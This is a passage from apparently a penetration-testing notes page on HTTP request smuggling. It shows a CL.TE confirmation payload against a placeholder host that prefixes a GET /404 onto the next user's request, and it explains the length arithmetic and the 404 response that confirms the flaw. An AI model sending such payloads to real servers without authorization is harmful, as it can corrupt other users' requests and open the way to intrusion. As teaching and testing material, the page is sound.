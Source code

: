 {% hint style="warning" %}
**Warning**: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.
{% endhint %}

## <mark style="color:yellow;">Confirmation/Exploitation</mark>

Normal request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### <mark style="color:yellow;">**CL.TE**</mark>

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

`Content-Legth: 49` -> all chars until `Foo:x` (include `\r\n`)

`e` (hex) -> Lenght `q=smuggling&x=`

Then send normal request. This will cause the subsequent "normal" request to look like this:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The server will respond with status code 404, indicating that the attack successful.
